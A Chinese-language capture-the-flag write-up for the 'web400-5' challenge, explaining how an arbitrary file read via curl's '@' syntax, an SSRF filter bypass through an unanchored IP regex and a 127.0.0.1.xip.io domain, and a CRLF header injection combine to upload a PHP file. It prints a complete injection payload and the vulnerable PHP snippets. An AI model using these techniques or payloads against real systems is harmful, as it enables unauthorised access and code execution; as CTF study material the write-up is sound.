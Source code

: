### web400-5 writeup 

#### 0x1 获取源代码

发现程序实现基本的发HTTP请求，和接收HTTP请求的功能。

看到发POST请求的时候，看到用的请求头是的`Content-Type`是`multipart/form-data`
```
POST /web2/adminApi/index.php HTTP/1.1
Host: 127.0.0.1
Accept: */*
Content-Length: 150
Content-Type: multipart/form-data; boundary=------------------------ceee82fe79c2c00b
```
所以想后台应该用的是
```php
curl_setopt($ch, CURLOPT_POSTFIELDS, array("username"=>"admin"));    
```
所以想到可以用`@`符进行任意文件读取,post数据为:
```
file=@repeater.php
``` 
进行任意文件读取，发现还有后台 `adminApi/index.php`,依次读取所有文件，
发现后台是`pwnhub`的公开赛的任意文件上传的那个题，但是限制了请求来源的ip必须是本地地址，

**所以思路就是通过前面的PHP程序向后台发送数据，来getshell**

#### 0x2 绕过SSRF过滤

看repeater.php中限制了SSRF。

```php
function isInternalIp($ip) {
    $ip = ip2long($ip);
    $net_a = ip2long('10.255.255.255') >> 24; //A类网预留ip的网络地址
    $net_b = ip2long('172.31.255.255') >> 20; //B类网预留ip的网络地址
    $net_c = ip2long('192.168.255.255') >> 16; //C类网预留ip的网络地址
    $net_l = ip2long('127.255.255.255') >> 24;
    return $ip >> 24 === $net_a || $ip >> 20 === $net_b || $ip >> 16 === $net_c || $ip >> 24 === $net_l;
}
```
这段代码是@phithon的限制SSRF漏洞的代码，不存在问题。
但是看到这里：
```php
if(preg_match('/^([2][0-4]\d|[2][5][0-5]|[1]\d\d|[1-9][\d]|[\d])(\.([2][0-4]\d|[2][5][0-5]|[1]\d\d|[1-9][\d]|[\d])){3}/',$urlInfo["host"])){
    $ip = $urlInfo["host"];
}else{
    $ip = gethostbyname($urlInfo["host"]);    
}
```
看到正则的后面没有用`$`结尾，造成绕过,用这样的域名就可以伪造IP:
```
10.10.10.10.com
```
只需要找到一个这样的域名，解析到`127.0.0.1`就可以绕过SSRF的过滤了。

网上有个服务`http://xip.io` ，这是一个“神奇”的域名，它会自动将包含某个IP地址的子域名解析到该IP。比如 127.0.0.1.xip.io ，将会自动解析到127.0.0.1，www.10.0.0.1.xip.io将会解析到10.0.0.1：

```bash
web400-5 git:(master) dig 127.0.0.1.xip.io

; <<>> DiG 9.8.3-P1 <<>> 127.0.0.1.xip.io
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 39428
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;127.0.0.1.xip.io.		IN	A

;; ANSWER SECTION:
127.0.0.1.xip.io.	300	IN	A	127.0.0.1

;; Query time: 5 msec
;; SERVER: 192.168.191.1#53(192.168.191.1)
;; WHEN: Mon Oct 23 20:39:19 2017
;; MSG SIZE  rcvd: 66

```
所以可以用域名`127.0.0.1.xip.io`来绕过。

#### 0x3 getshell

但是没法控制上传的文件内容，怎么上传一个shell呢？

发现我们可以控制请求的header，想到CRLF漏洞，我们在header中利用CRLF漏洞
注入一个完整的上传文件的请求的body体，就可以上传文件。

一个可用的payload如下：
```
Content-Length: 750
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylxknDywuiKIurEpO%0d%0a%0d%0a------WebKitFormBoundarylxknDywuiKIurEpO%0d%0aContent-Disposition: form-data; name="upfile[1]"%0d%0a%0d%0atest%0d%0a------WebKitFormBoundarylxknDywuiKIurEpO%0d%0aContent-Disposition: form-data; name="upfile[2]"%0d%0a%0d%0apng%0d%0a------WebKitFormBoundarylxknDywuiKIurEpO%0d%0aContent-Disposition: form-data; name="upfile[4]"%0d%0a%0d%0aphp%0d%0a------WebKitFormBoundarylxknDywuiKIurEpO%0d%0aContent-Disposition: form-data; name="upfile"; filename="2.php"%0d%0aContent-Type: text/php%0d%0a%0d%0a<?php phpinfo();?>%0d%0a------WebKitFormBoundarylxknDywuiKIurEpO--%0d%0a
```
就可以成功getshell。



 